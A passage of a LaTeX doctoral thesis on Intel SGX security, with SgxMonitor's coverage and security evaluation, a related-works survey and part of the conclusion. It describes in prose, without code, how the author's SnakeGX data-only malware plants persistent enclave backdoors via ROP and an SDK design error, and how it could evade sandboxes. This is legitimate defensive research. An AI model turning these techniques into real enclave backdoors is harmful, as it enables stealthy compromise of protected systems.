		\textsf{StealthDB} & $44$ & $18.29$ & $13.53$ & 
		$21.97$ & $18.05$ & $96.6\%$ & $0$ & $6.16$ & $24.5$ & $258.89$ \\
		\textsf{SGX-Biniax2} & $49$ & $8.55$ & 
		$8.75$ & $9.29$ & $11.71$ & $91.6\%$ & $4$ & $52.46$ & $168.8$ & 
		$2465.62$ \\
		\textsf{Unit-test} & $17$ & $6.88$ & $7.47$ & $7.17$ & $10.52$ & 
		$94.0\%$ & $0$ & $15.60$ & $53.4$ & $234.29$ \\ 
		\midrule
		\emph{total} & $228$ & - & - & - & - & - & $13$ & - & - & $8561.10$ \\ 
		\bottomrule
	\end{tabular}%
	}
	\caption[Coverage analysis of SgxMonitor.]
		{Coverage analysis over our five use cases: 
		\textsf{Contact}~\citep{signalrepo}, 	
		\textsf{libdvdcss}~\citep{libdvdcss}, 
		\textsf{StealthDB}~\citep{stealthdb}, 
		\textsf{SGX-Biniax2}~\citep{bauman2016case}, and a unit-test. The 
		results show that the analysis covers from $91.6\%$ to $96.6\%$ of the 
		\emph{actions} in around $2$ hours and $20$ minutes in total 		
		($8561.10$s). Furthermore, we did not observe any false positive during 
		our experiments, meaning we covered a significant portion of code.}
	\label{tbl:coverage}
\end{table}
%\end{sidewaystable}

\subsubsection{Coverage and Precision}
\label{sssec:coverage}

%Here we discuss the coverage and the precision of our analysis (see 
%Section~\ref{sec:model-exctraction}).
\emph{\textbf{Coverage.}}
Table~\ref{tbl:coverage} shows our coverage results. We applied the analysis 
described in Section~\ref{sec:model-exctraction} to our uses 
cases: \textsf{Contact}, \textsf{libdvdcss}, \textsf{StealthDB}, 
\textsf{SGX-Biniax2}, and the unit-test.
The five use cases show a different complexity, \textsf{Contact} contains more 
single functions ($71$) that are less complex ($12$ \emph{actions} on average), 
while \textsf{libdvdcss} has less functions ($47$) but significantly more 
complex ($25$ \emph{actions} on average).
The functions of \textsf{StealhtDB} and \textsf{SGX-Biniax2} have a 
complexity more similar to \textsf{Contact} ($18.29$ and $8.55$ \emph{actions} 
on average, respectively).
Finally, the unit-test is small and used to validate SgxMonitor and the 
\emph{exception handling}.
Overall, our analysis covers from $91.6\%$ to $96.6\%$ of the \emph{actions}.
We also manually analyzed the unexplored \emph{actions} and we observed that 
they are manly corner cases that never happen in real executions (\eg a 
function that tests a null-pointer but that never happens).

\emph{\textbf{Precision.}} 
We did not experience any \emph{false positive} in any of our experiments (\ie 
micro-, macro-benchmark, and attestation speed), thus showing that our analysis 
can significantly model the enclave behavior.

\vspace{0.5cm}
\noindent \textbf{Coverage and Precision---Take Away.} Our results show that 
\begin{enumerate*}[label=(\roman*)]
	\item the symbolic execution is suitable to cover the small	functions in 
	SGX enclaves (\ie only $13$ functions out of $135$ ($5.7\%$) required an 
	insensitive static analysis);
	\item our approach is practical since it can be completed in around an hour 
	(\ie $70$m for \textsf{libdvdcss}); and
	\item our analysis explores a significant portion of the code since it does 
	not rise false positive alarms.
\end{enumerate*}
%
%\todo{symex vs insensitive - number of fallback to insensitive - analysis time}
%
%\todo{table? with: \# function, avg BB x func, avg edgess x funcm \% of BB 
%traversed, this for contact, libdvdcss, and unit-test.}

\subsection{RQ2 - Security Evaluation}
\label{ssec:security-properties}

We evaluate the security guarantees of SgxMonitor from multiple 
perspectives.
First, we demonstrate the capability of SgxMonitor to intercept 
modern execution-flow attacks (Section~\ref{sssec:execution-flow-attacks}).
Then, we discuss non-control data attacks and discuss mitigation
(Section~\ref{sssec:non-control-data}).
Finally, we analyze the impact of SgxMonitor in side-channels scenarios 
(Section~\ref{sssec:info-leakage}).
%We evaluate the security guarantees of SgxMonitor from multiple 
%perspectives.
%First, we demonstrate the capability of SgxMonitor to intercept 
%modern execution-flow attacks for SGX 
%enclaves(Section~\ref{sssec:execution-flow-attacks}).
%Then, we analyze the impact of SgxMonitor in side-channels scenarios and 
%discuss mitigation (Section~\ref{sssec:info-leakage}).

\subsubsection{Execution-flow Attacks}
\label{sssec:execution-flow-attacks}

Since SGX does not allow one to arbitrary change the page permission of a 
running enclave, 
researchers adapted memory-corruption errors to hijack the enclave execution.
To test the properties of SgxMonitor against this class of attacks, we 
choose two security benchmark: \textsf{SnakeGX}~\citep{snakegx}, which is an 
enclave infector for SGX enclaves; and a security benchmark 
that evaluates the correctness of the shadow stack defense.

\textbf{SnakeGX.}
This is a data-only malware designed to implant a permanent backdoor into 
legitimate SGX enclaves. 
\textsf{SnakeGX} is an extension of the work of Biondo et. 
al~\citep{biondo2018guard} and is based on code-reuse techniques.
\textsf{SnakeGX} is composed by two phases: 
\begin{enumerate*}[label=(\roman*)]
	\item an \emph{installation phase}, that uses a classic 
	ROP-chain~\citep{carlini2014rop} to install the payload inside 
	the \emph{target enclave}; and
	\item a \emph{backdoor activation}, that exploits a design error of the 
	Intel SGX SDK to trigger the payload previously installed.
\end{enumerate*}
\textsf{SnakeGX} managed to bypass the current SGX protections. 
Therefore, once installed, an external observer cannot realize the presence of
\textsf{SnakeGX} in the \emph{target enclave}.
For our evaluation, we recompiled the victim enclave including SgxMonitor, 
and we adjusted the \emph{gadgets} addresses of \textsf{SnakeGX} accordingly.
Then, we extracted the model, execute the malware, and finally, traced 
the \emph{actions} emitted.
The results show that SgxMonitor recognized either the 
\emph{installation phase} and the \emph{backdoor activation}.
In particular, the \emph{installation} relies on a classic ROP-chain, 
therefore, SgxMonitor identified an unknown \emph{action} pointing a 
\emph{gadget}.
The \emph{backdoor activation}, instead, restores a corrupted 
\texttt{ocall\_context} (crafted during the installation). In this case, 
SgxMonitor observed the restoring of an anomalous state.
In both cases, SgxMonitor flagged the \emph{target enclave} as 
malicious, thus blocking any attempt to establish a secure channel 
(Figure~\ref{fig:design_sgxmonitor}).

%To sum up, \text{SnakeGX} is a modern benchmark that stressed the capability 
%of 
%SgxMonitor to recognize classic ROP-chains (\ie the \emph{installation 
%phase}) and modern code-reuse attacks (\ie the \emph{backdoor activation}).

\paragraph{Shadow Stack Protection.}
We evaluate the shadow stack protection implemented in SgxMonitor. In 
particular, we want to identify an adversary able to overwrite the 
\emph{return address} of a function with a valid location that 
is, however, incoherent with the call stack.
To this end, we built a custom enclave that allows such attacks, we compiled it 
with SgxMonitor, extracted the model, and finally, run the attack.
The results show that SgxMonitor managed to identify execution 
flows incoherent with the call stack, thus flagging the \emph{target enclave} 
as malicious.

%To sum up, SgxMonitor can correctly identify attacks that manipulates 
%backward jumps.


\subsubsection{Non-control Data Attacks}
\label{sssec:non-control-data}

%We discuss if an adversary may gain information from the communication 
%protocol between \emph{monitor} and \emph{target enclave} in case of 
%non-control data attacks~\citep{269251,hu2015automatic}.

We discuss if the communication protocol between \emph{monitor} and 
\emph{target enclave} may brace the adversary capabilities in non-control data 
attacks~\citep{269251,hu2015automatic}.
Before we analyze this problem, we remark that all the packets have the same 
size by design, and the cryptographic key changes at any packet emitted (see 
Section~\ref{ssec:secure-communication-protocol}).
Therefore, an adversary can only analyze the packets timestamp.

%In particular,me 
%size by design, and the cryptographic key changes at any packet emitted (see 
%Section~\ref{ssec:secure-communication-protocol}).
%Therefore, an adversary can only analyze the packets timestamp.
These attacks do not hijack the execution-flow, for instance, an enclave may 
contain a password checking algorithm that matches one character at time.
In this example, the number of packets suggests the number of characters 
guessed, thus reducing the combination.
We can mitigate this attack with the introduction of dummy packets (from $0$ to 
$k$) and adding a random dummy delay (from $0$ to $t$).
This will increase the micro-benchmark overhead of a factor $(k + t)$x in the 
worst case.
However, such defenses would be applied to specific code portions (\eg
in the password checking), thus incurring a minimal overhead footprint
overall.  (The idea is similar to adding countermeasures against
timing-based attacks~\citep{10.1007/978-3-642-25385-0_26}.)


%\textbf{Code-reuse adversary}. In case of white-box scenarios, an adversary
%already knows the code location, moreover, SGX does not implement ASRL. Thus, 
%this leakage does not brace the attacker power.
%These attacks are discussed by Biondo et al.~\citep{biondo2018guard}, that 
%relied on known non-randomized portion of code to build their payload.
%In case of black-box scenario, instead, an adversary might count the number of 
%packets to understand which portion of code has been traversed, thus locating 
%\emph{gadgets}.
%Even though an adversary can infer the code location, SgxMonitor will 
%detect 
%the attack, thus we falling in the cases discussed in 
%Section~\ref{sssec:execution-flow-attacks}. % and~\ref{sssec:non-control-data}.

\subsubsection{Side-channels Attacks}
\label{sssec:info-leakage}

%7.2.3 - side channel attacks: metti crypto analysis e discorso su leak 
%introdotto dal ns protocollo di comunicazione. Quello che l’attacker puo` fare 
%riconduce a  7.2.1 o 7.2.2. La parte che hai ora in code-reuse adversary puoi 
%provare a metterla qui (in 7.2.3) se ci sta bene come flow
We study the implication of SgxMonitor in side-channel attacks.
%introduced by the SgxMonitor communication protocol falls 
%in two cases.
First, we focus on crypto analysis. In this case, an adversary may use the 
number of packets emitted to attack the cryptographic algorithms in the 
enclave. However, 
modern cryptographic algorithms have been proven chosen-ciphertext attack 
secure~\citep{barthe2011beyond}. Therefore, leakage of ciphertext packets does 
not improve the adversary's capabilities~\citep{wee2010efficient}. 
%
An adversary may however count the packets exchanged by the communication 
protocol to analyze the enclave execution and locate likely code
positions. 
We dissect this scenario in two cases.
(i) The code location could be used in \emph{execution-flow attacks}, 
therefore, an adversary will trigger an anomalous execution that will be 
detected by SgxMonitor, as we discuss in 
Section~\ref{sssec:execution-flow-attacks}.
(ii) The code location could be used in \emph{non-control data attacks}, that 
we discuss in Section~\ref{sssec:non-control-data}.

\vspace{0.5cm}
\noindent \textbf{Security Evaluation---Take Away.}
Our evaluations show that SgxMonitor can resist against state-of-the-art 
attacks (\ie \textsf{SnakeGX} and shadow stack protection).
Moreover, we discuss the possible information leakage and we show that, in 
practice, it does not improve the adversary capabilities.
Finally, we also propose information leaking mitigation and discuss the 
scenarios for which they are more suitable.
\chapter{Related Works}
\label{chp:related-works}

In this chapter, we compare the contributions proposed in this thesis (from 
chapter~\ref{chp:static-protection}~to~\ref{chp:runtime-protection-trusted}) 
with the literature.
We split the chapter in three sections. 
In the first part, we discuss works related with \emph{memory isolation} 
(Section~\ref{sec:memory-isolation}).
The second part, instead, focuses on \emph{remote attestation} 
(Section~\ref{sec:remote-attestation}).
In the last part, we collect related works from areas not previously covered 
(Section~\ref{sec:miscellansous}).

Since many related works are compared with more than one contribution, we use 
the chapter number as a reference to avoid misunderstanding.

\section{Memory Isolation}
\label{sec:memory-isolation}

We illustrate works that deal with \emph{memory isolation} from many 
perspectives.
First, we discuss software protections based on SGX 
(Section~\ref{ssec:software-protection-by-using-sgx}).
Then, we focus on malware-enclaves (Section~\ref{ssec:enclave-as-malware}), and
memory corruption errors in SGX (Section~\ref{ssec:memory-corrution}).
Finally, we discuss memory-forensic in SGX environment 
(Section~\ref{ssec:forensic-in-sgx}).

\subsection{Software Protection by using SGX}
\label{ssec:software-protection-by-using-sgx}

The first strategy for protecting applications by using SGX was
moving the whole code inside an enclave.
This was proposed by \cite{baumann2015shielding}, and by 
\cite{tsai2017graphene} after.
They respectively developed Haven (for Windows) and Graphene (for Linux), which 
are tools that allow one to execute legacy applications inside an enclave.
Respect to Chapter~\ref{chp:static-protection}, their attacker model is the 
Iago attacker, which consider the host OS as malicious, while our attacker 
model aims at modifying code at runtime from user-space.
These tools contain a micro-kernel inside an enclave that communicates
through a Drawbridge system with the host OS \citep{porter2011rethinking}.
A spin in this direction was proposed by \cite{seo2017sgx}, who 
extend the project Graphene by adding Address Space Layout Randomization (ASLR) 
features.
\cite{arnautov2016scone}, instead, deployed previous approaches 
to Docker containers in their tool SCONE.
All these systems have a common approach: they run the whole application in an 
enclave. 
However, they need to introduce some compromise: Haven and Graphene need 
specific libraries for the OS.
Moreover, they limit applications' features (\eg Haven does not allow graphical 
interfaces, SCONE do not support \texttt{fork()} operations), also, they limit 
application size because of the enclave limitation.
The approach in Chapter~\ref{chp:static-protection}, instead, can protect a 
vast code surface exploiting few code lines in the enclave without any 
additional library or limitation in term of features.

Another approach for SGX technology is to move into \emph{enclave} only those 
parts of the application which are considered secure-sensitive.
This approach was adopted by \cite{schuster2015vc3}, who combined MapReduce 
framework and SGX enclaves to perform big data analysis.
In this work, authors define ad-hoc enclave for their application.
This approach was then automatized by \cite{lind2017glamdring}, who proposed a 
tool (Glamdring) that moves critical sections (and variables) into 
automatically generated enclaves.
The approach in Chapter~\ref{chp:static-protection} is different because we 
protect critical sections without moving them inside enclaves.

\subsection{Enclaves as Malware}
\label{ssec:enclave-as-malware}

The work in Chapter~\ref{chp:advanced-threats} implants a malware (\ie a 
backdoor) in a legit enclave.
Researchers already investigated SGX isolation properties as malware container
in previous
works 
\citep{thoughs-on-intel1,thoughs-on-intel2,davenport2014sgx,amsterdamsgxmalwer,schwarz2017malware,schwarz2018good,sgxrop}.
However, all these approaches require the introduction of a new enclave in the 
system.
The main issue of this approach is that an unexpected enclave can be detected
and, consequently, attract analysts' attentions, as we discuss in 
Chapter~\ref{chp:forensic}.
On the contrary, Chapter~\ref{chp:advanced-threats} shows an attack that hides 
its presence in a running and legitimate enclave thus proposing a new approach 
for malware-enclave.

\cite{7980210} proposed EnGarde, which is an enclave loader that checks whether 
the enclave matches a set of predefined policies in order to avoid loading 
potentially dangerous code.
In this way, it is no more possible to introduce a new malicious enclave in the 
system.
However, once an enclave is loaded, it follows standard SGX specification, 
therefore, Chapter~\ref{chp:advanced-threats} shows how to take control of it, 
if our assumptions are satisfied.

To mitigate malware-enclaves, \cite{sgxjail} introduced 
SGXJail, which is the first sandbox for untrusted enclaves.
In their scenario, the authors assume that a malicious enclave is developed on 
purpose and then deployed in a machine without being inspected (\eg the enclave 
is shipped as encrypted).
Once installed, the malicious enclave can launch several attacks, \eg leak 
information, compromise the host.
SGXJail restricts the enclave interaction by mean of a sandboxed process with 
a very narrowed number of syscalls enabled.
In principle, the design of SGXJail reduces the attack surface of the attack in 
Chapter~\ref{chp:advanced-threats}.
However, since we attack only trusted enclaves (\ie enclaves that were 
verified beforehand), we consider reasonable not to assume sandboxes in place.
In addition, the attack in Chapter~\ref{chp:advanced-threats} can implement a 
sandbox detection to avoid the infection, \ie we can probe the host process by 
running specific syscalls during the installation phase and, in case, interrupt 
the attack.
In terms of memory-forensic, SGXJail is limited to containment and does not 
inspect the enclave content, thus not providing any forensic information.
On the contrary, the study in Chapter~\ref{chp:forensic} extracts evidence from 
the memory, thus complementing the work of Weiser et al.

As an alternative, \cite{zhang2021see} propose SGX-Bouncer, that can infer an 
enclave behavior without breaking its isolation.
SGX-Bouncer scans the cache access in the attempt to detect illegal memory
access, such as side-channels or unauthorized enclave exits.
This project works with runtime information, and its purpose is to detect
running malware-enclave.
On the contrary, the work in Chapter~\ref{chp:forensic} deals with a static 
image of the system. 
Anyway, SGX-Bouncer can be seen as a complementary tool for a comprehensive
forensic analysis, as discussed in Chapter~\ref{chp:forensic}.


\subsection{Memory Corruption in SGX Enclaves}
\label{ssec:memory-corrution}

SGX applications are not immune to flaws that may lead to memory corruption 
attacks.
In this scenario, the attacker can use classic exploitation techniques.
However, it is important to underline that the SGX isolation by default 
complicates the exploitation phase.
In this hostile environment, \cite{lee2017hacking} developed 
Dark-ROP, a technique to gain information about the enclave to build a 
successful attack.
The work of \cite{lee2017hacking} forces a victim enclave to crash
and restart many times to look up the gadgets and build the ROP-chains.
Their strategy is reasonable since they assume the entire host as compromised,
and therefore, the adversary has no need to hide its presence.
An optimized strategy has been proposed by \cite{biondo2018guard}, in which 
they assume a non-compromised host. 
The goal of Biondo is to gain control of the enclave in a single 
iteration.
However, as we discussed in Section~\ref{ssec:comparison} and 
Chapter~\ref{chp:forensic}, the strategy of Biondo leaves a certain amount of 
traces that can be detected.
The work in Chapter~\ref{chp:advanced-threats}, instead, improves its 
stealthiness by permanently injecting a backdoor in the enclave.
As a result, it just needs an \texttt{ORET} to activate payloads 
arbitrary complex.
This increases the stealthiness of our attack in case of a non-compromised 
host.
To achieve our goal, Chapter~\ref{chp:advanced-threats} overcomes new 
challenges, such as persistence in an enclave by solely using code-reuse 
attacks and expanding the data-only malware model by proposing new techniques.
To the best of our knowledge, these novel challenges have not been 
discussed and solved for SGX technology before.

Other works in the literature investigated memory integrity mechanisms for SGX 
enclaves. \cite{Kuvaiskii:2017:SMS:3064176.3064192} implemented SGXBounds.
This tool instruments enclave code to mitigate memory corruption errors.
Unfortunately, SGXBounds has been developed only for SCONE \citep{199364}, 
which is a project that enforces Docker containers by using small enclaves.
\cite{schuster2015vc3} describe VC3, which is a Map-Reduce framework based on 
SGX.
Since VC3 takes custom software as an input, the authors developed a set of 
static-code checks to limit memory corruption issues.
To reduce memory corruptions flaws, \cite{sgx-rust} described a Rust 
environment for SGX. 
However, as underlined by the authors, even with a framework written in a safe 
programming language we cannot solve all the memory corruption issues.
\cite{il3} proposed T-SGX, which reduces the amount of information gathered 
from enclave crashes and limited the impact of attacks like Dark-ROP.
The work in Chapter~\ref{chp:advanced-threats}, however, is a generic framework 
that can rely on any code-reuse attack for SGX enclaves.
For instance, \cite{tale-two-worlds} and \cite{sgxfloating} conducted a 
systematic study of the memory errors in the SGX run-time libraries and they 
found several flaws in different projects.
\cite{teerex} proposed TeeRex, an automatic analyzer for memory corruption 
errors in enclaves.
All these defensive works show a limitation in the SGX design. This technology 
shields all the threats from the outside but has almost no protections to 
harden a flawed application running inside the enclave. 
Unfortunately, all the proposed defensive solutions are not ready for a real 
production deployment and do not entirely solve the problem.
In many cases they can be bypassed and, at the moment,
there are code-reuse attacks (\cite{biondo2018guard,lee2017hacking}; and the 
one in Chapter~\ref{chp:advanced-threats}) able to 
disarm standard and additional SGX memory-integrity mechanisms.

\vspace{0.5cm}
\noindent \textbf{Similarities with memory-forensic techniques} -- The works 
described before share few similarities with the forensic techniques 
in Chapter~\ref{chp:forensic}.
For instance, code-reuse attacks require to infer the enclave base address for 
their payload.
Specifically, Biondo's work and the one discussed in 
Chapter~\ref{chp:advanced-threats} achieved this goal by reading the ELRANGE 
from user space and looking for pages belonging to the \texttt{isgx} device.
The study in Chapter~\ref{chp:forensic} deeply expands this concept and 
investigates many source of information available in a memory-forensic 
exercise, without assuming the enclave content. 
%Finally, we show the practicality of these techniques against the work in 
%Chapter~\ref{chp:advanced-threats}.
%
Another example are the works of \cite{tale-two-worlds} and \cite{sgxfloating} 
that analyze the enclave ABI.
Even though they share few similarities with the interface detection described 
in Chapter~\ref{chp:forensic}. Our approach is more generic and aimed to locate 
the enclave interfaces for forensic purposes in the untrusted memory. 

\subsection{Forensic in SGX Environment}
\label{ssec:forensic-in-sgx}
\cite{zhang2018memory} in ``Memory forensic challenges under
misused architectural features'' demonstrated how important and lacking are SGX
forensics tools. In their work, they show how a malicious enclave can encrypt
files, as a classical ransomware, without the possibility for a forensic analyst
to recover the encryption key stored in the enclave also with complete access to
the system.
Furthermore, an analyst who wants to perform any type of analysis on SGX
capable system has no valid dump tool to gain access to enclave
memory space because even tools running at the highest system privilege
modes are ineffective, as the one presented in \cite{reina2012hardware}.
On the contrary, in Chapter~\ref{chp:forensic} we performed a deep study of the 
traces left in the system memory by the enclaves, illustrate practical 
approaches to infer information, and discuss applications in real use cases.

\section{Remote Attestation}

\label{sec:remote-attestation}

We illustrate works that addressed \emph{static remote attestation} 
(Section~\ref{ssec:static-ra}), and \emph{runtime remote attestation} 
(Section~\ref{ssec:runtime-ra}).

\subsection{Static Remote Attestation}
\label{ssec:static-ra}

Existing RA schemes are based on a cryptographic signature of a piece of 
software (\eg software modules, BIOS, operating system). Commercial solutions 
that implement such mechanisms are already available: 
TPM \citep{tomlinson2017introduction}, SGX \citep{costan2016intel}, and AMD 
TrustZone \citep{winter2008trusted}. 
Academic approaches, which focus on cloud systems, are proposed by 
\cite{wang2018trusted} and \cite{ba2017jmonatt}. 
More specifically, their solutions involve a static attestation schema for 
infrastructures as a service and JVM cloud computing, respectively. 
Even though these technologies can provide high-security guarantees, they focus 
on static properties (\ie signatures of components) and cannot offer any 
defence against runtime attacks.
On the contrary, in chapters~\ref{chp:runtime-protection-untrusted} 
and~\ref{chp:runtime-protection-trusted}, we extend the properties of static 
remote attestation by including runtime properties, as to detect code-reuse 
attacks.

\subsection{Runtime Remote Attestation}
\label{ssec:runtime-ra}

To overcome design limitations of static RA, researchers propose runtime RA. 
\cite{kil2009remote} analyze base pointers of software components, such as 
stack and heap, and compare them with the measurements acquired offline.
\cite{bailey2010trusted} propose a coarse-grained level that attests the order 
in which applications modules are executed. \cite{davi2009dynamic} propose a 
runtime attestation based on policies, such as the number of instructions 
executed between two consecutive returns. Previous works suggest first to 
acquire a runtime measurement of software properties, but do not provide a 
fine-grained control-flow analysis.

A modern fine-grained control-flow RA is represented by C-FLAT, which is 
proposed by \cite{abera2016c}. 
This schema measures the valid execution paths undertaken by embedded systems 
and generates a hash, which length depends on the number of control-flow events 
encountered at runtime. 
Then, the hash is compared with a list of offline measurements. 
C-FLAT differs from the model in Chapter~\ref{chp:runtime-protection-untrusted}
for the following reasons:
\begin{enumerate*}[label=(\roman*)]
	\item C-FLAT control-flow representation grows along with software 
	complexity, while in Chapter~\ref{chp:runtime-protection-untrusted} we 
	model complex control-flow paths by using partial reports, and
	\item the work in Chapter~\ref{chp:runtime-protection-untrusted} is 
	designed to use features of modern computer architectures (\eg 
	multi-threading, bigger buffers).
\end{enumerate*}
\cite{dessouky2017fat} propose LO-FAT, which is a C-FLAT hardware 
implementation aimed at improving runtime performances for embedded systems. 
However, LO-FAT inherits all of C-FLAT design limitations in terms of 
control-flow representation. \cite{zeitouni2017atrium} designed ATRIUM, that 
strengthens runtime RA schemes against physical attacks for embedded devices. 
Even though the authors address different use cases, this solution might be 
combined with the work in Chapter~\ref{chp:runtime-protection-untrusted}.

\cite{Dessouky:2018:LLH:3240765.3240821} propose LiteHax, that deals with 
data-only attacks.
Their approach shares some similarities with the model in 
Chapter~\ref{chp:runtime-protection-untrusted}: they 
send detailed control-flow events information to a \emph{Verifier}. 
However, they target data-oriented attacks (instead of control-flow). Moreover, 
LiteHax uses symbolic execution to validate the reports, which slows down the 
verification phase.
\cite{aberadiat} discuss DIAT, which is a scalable RA for collaborative 
autonomous system. They model a runtime control-flow as a multi-set. This 
allows DIAT to represent complex control-flow graphs by using a relatively 
short hash. However, its model loses information about the execution order of 
the branches. This makes their approach prone to attacks like 
COOP \citep{schuster2015counterfeit}. 
In Chapter~\ref{chp:runtime-protection-untrusted}, instead, we combine a strong 
static analysis and a shadow execution at the \emph{Verifier} side that 
provides a sound approach by design. Overall, our 
experiments show that ScaRR can handle a higher number of branches per second 
compared to all the state-of-the-art runtime RA schemes.

\cite{haldar2004semantic} propose a semantic RA, which leverages 
a virtual machine to validate semantic properties (\eg subclass inherited). 
However, the authors focus on run-time languages, while the model in 
Chapter~\ref{chp:runtime-protection-untrusted} worst at binary 
level.

All the previous works (including 
Chapter~\ref{chp:runtime-protection-untrusted}) propose sound runtime RAs, 
however, they suffer from two fundamental differences \wrt the work in 
Chapter~\ref{chp:runtime-protection-trusted}.
First, all the previous works assume having an isolated trusted anchor that can 
inspect the \emph{Prover} runtime properties.
However, the \emph{memory isolation} of a TEE does not provide this feature by 
design.
To this end, Chapter~\ref{chp:runtime-protection-trusted} proposes a new pure 
software design for SGX that involves two separate enclaves (\ie \emph{target} 
and \emph{monitor}) and a secure communication channel.
In particular, the \emph{target} enclave transfers each \emph{action} to the 
\emph{monitor} thus immediately spotting any attempt of attack.
Second, previous works are designed to model stateless executions.
In Chapter~\ref{chp:runtime-protection-trusted}, instead, we propose a stateful 
model that captures the \emph{enclave} life-cycle.

\section{Other works}
\label{sec:miscellansous}

This section collects the related works not directly cover by \emph{memory 
isolation} and \emph{remote attestation}.
In particular, we discuss anti-tampering techniques 
(Section~\ref{ssec:anti-tampering-techniques}), control-flow integrity checks 
(Section~\ref{ssec:control-flow-integrity-checks}), and data-only malware 
(Section~\ref{ssec:data-only-malware}).

\subsection{Anti-tampering Techniques}
\label{ssec:anti-tampering-techniques}

\cite{7371862}, \cite{ghosh2010secure}, and 
\cite{Dewan:2008:HSP:1400549.1400685}, base their anti-tampering techniques 
on hyper-visor level. 
In all works, authors rely trustiness on the hypervisor, while we propose a 
\emph{self-checking} mechanism which is built on top of a trusted module.
\cite{Feng:2008:SMC:1517494.1517497} propose an anti-cheating mechanism for 
video-games. In their approach, they simulating client logic on a server to 
identify inconsistencies.
Unlike them, the work in Chapter~\ref{chp:static-protection} spots client 
anomalies by using a \emph{self-checking} system.

\cite{viticchie2016reactive} developed an anti-tampering mechanism which is 
based on a remote attestation.
Here, the client is moved to a trusted server.
Their approach is substantially different than the one discussed in 
Chapter~\ref{chp:static-protection} because they do not rely on a trusted 
module.
Also, their mechanism forces an application to be partially moved to a server, 
while we do not alter client structure.

Commercial anti-tampering solutions for video-games, such 
as \citep{evenbalance,vac}, perform a software signature which communicates 
with a trusted server; however, they do not consider trusted computing for 
improving software protection.

\subsection{Control-flow Integrity Checks}
\label{ssec:control-flow-integrity-checks}

In the last few years, some authors have proposed architectures that share some 
similarities with RA 
\citep{Ding:2017:EPP:3241189.3241201,Liu:2018:RED:3243734.3243826,hu2018enforcing}.These
works are composed by two concurrent processes: a target process (that might 
be under attack), and a monitor process (that validate some target property).
However, in chapters~\ref{chp:runtime-protection-trusted} 
and~\ref{chp:runtime-protection-untrusted} consider a different attacker model 
since we consider a fully compromised user-space, \ie an attacker may tamper 
with the target software code or attack the monitor process itself. 
Moreover, unlike chapters~\ref{chp:runtime-protection-untrusted} 
and~\ref{chp:runtime-protection-trusted}, these solutions are not designed to 
provide any report about the execution path of the target process. 

For what concerns the work in Chapter~\ref{chp:runtime-protection-trusted}, one 
could include a CFI in the \emph{trusted regions} to increase the security 
guarantees. However, as in the case of SGX, these type of defenses are more 
challenging to be deployed and adversaries already managed to bypass the
current protections (as discussed in Section~\ref{ssec:memory-corrution}).
Moreover, once a CFI is bypassed, the defender has lost control and it is not 
possible to emit a proof for correct execution.
Therefore, only adopting such defenses will lead to a never ending arm race.
On the contrary, the work in Chapter~\ref{chp:runtime-protection-trusted} is 
orthogonal with the previous defenses, provides fresh proof of correct 
execution, and finally reduces the attack surface.

\subsection{Data-only Malware}
\label{ssec:data-only-malware}

Data-only malware is any malicious payload that does not introduce or change 
any existing code into the system \citep{vogl2014persistent}.
Data-only malware are based on code-reuse techniques such as ROP and JOP, and 
can hijack the control flow of the target application. This is possible by 
exploiting a vulnerability and crafting a specific payload.
The payload implementing the malicious functionality is usually ``one-shot''. 
The first data-only malware proposed by \cite{hund} and \cite{chen} managed to 
bypass state-of-the-art 
protections and they were based on ROP and JOP techniques, respectively.
However, both works lack of persistence.
This means that if the attacker wants to repeat the same action, she needs to 
exploit again the same vulnerability.
The concept of persistence for data-only malware and more in general for 
code-reuse attacks has been discussed and solved by \cite{vogl2014persistent} 
for the x86 architecture. They proposed ``Chuck'' the first persistent 
data-only (ROP) rootkit. 
However, the solutions used in Chuck cannot be transparently adapted to the SGX 
realm, and therefore, in Chapter~\ref{chp:advanced-threats} we expanded their 
work and introduced novel techniques to have a data-only malware for SGX.
\chapter{Discussion and Conclusion}
\label{chp:conclusion}

In the last years, Trusted Execution Environments grown in importance due to 
their application in cloud infrastructures.
These technologies allow one to define \emph{trusted regions} that benefit of 
either \emph{memory isolation} and \emph{remote attestation}.
The former ensures the content of a \emph{trusted region} is shield even 
against a fully compromised environment.
The latter, instead, is a cryptographic protocol that enables a third party to 
communicate with a \emph{trusted region} correctly bootstrapped.
Regardless the new security achievements of these technologies, TEEs still 
suffer from scalability issues. 
Moreover, they alone cover only a subset of the attack vectors that could 
appear in the wild.
		
In this thesis, we investigated the limitations that affect \emph{memory 
isolation} and \emph{remote attestation}, studied possible new threats, and 
proposed novel solutions to improve their security guarantees.
For what concerns \emph{memory isolation}, we discussed its limitations 
respect to the restricted size of the protected area.
Then, we investigated new intrusion techniques that exploit 
a \emph{trusted region}, and their implication in case of incident response.
In terms of \emph{remote attestation}, instead, we studied new models that 
capture runtime properties, overcome scalability issues, and propose new 
protocols that can protect advanced TEE modules.

In Chapter~\ref{chp:static-protection}, we proposed a software design that 
overcome memory isolation limitations. It combines novel anti-tampering 
techniques that leverages trusted computing technologies.
We achieved this by adopting a packing strategy that is similar to the one used 
by malware to hide its functionality.
Our approach forces a program to call trusted functions in order to be executed 
properly (by unpacking a piece of software from a trusted container). 
We implemented a proof-of-concept prototype of our technique by using Intel 
Software Guard eXtension (SGX) technology.
We illustrated our approach by protecting an agent that was designed to collect 
user's event and ship them to a central server.
Through this implementation, we showed how our architecture can guarantee 
further security properties such as a secure installation and a continuous 
client monitoring. Using our prototype, we measured the overhead in terms of 
lines of code (less than $10$ lines), execution time (on average $5.7\%$ more), 
and space required for the trusted container ($300KB$).
To sum up, our approach results in a scalable and software protection solution 
that overcomes TEE intrinsic limitations.

In Chapter~\ref{chp:advanced-threats}, we explored new threats that take 
advantage of the \emph{memory isolation} from modern TEEs.
Specifically, we proposed a new stealthy code-reuse attack that minimizes 
its presence against a healthy OS.
Our intuition is to implant a backdoor inside the victim \emph{trusted region}.
Consequently, an adversary just needs a minimal trigger without repeating the 
attack from scratch.
We implemented our idea in SnakeGX, which is a framework to install 
backdoors in SGX enclaves that behave like additional secure functions.
SnakeGX extends and adapts to the strict SGX environment the concepts of 
data-only malware \citep{vogl2014persistent}.
In particular, SnakeGX has a reliable context-switch mechanism based 
on a newly discovered design error of the Intel Software Development Kit 
for SGX, which we reported to Intel.
We evaluated our findings against StealthDB, an open-source project that 
implements an encrypted database.
Our experiments show that we can reduce the memory footprint of the payload
while preserving the enclave functionality.
Finally, we released an open-source version of our proof-of-concept for the 
community.

In Chapter~\ref{chp:forensic}, we presented a set of practical guidelines to 
inspect the physical memory acquired from an SGX-enabled machine.
Our work covers many aspects of memory forensics, such as retrieving EPC zones 
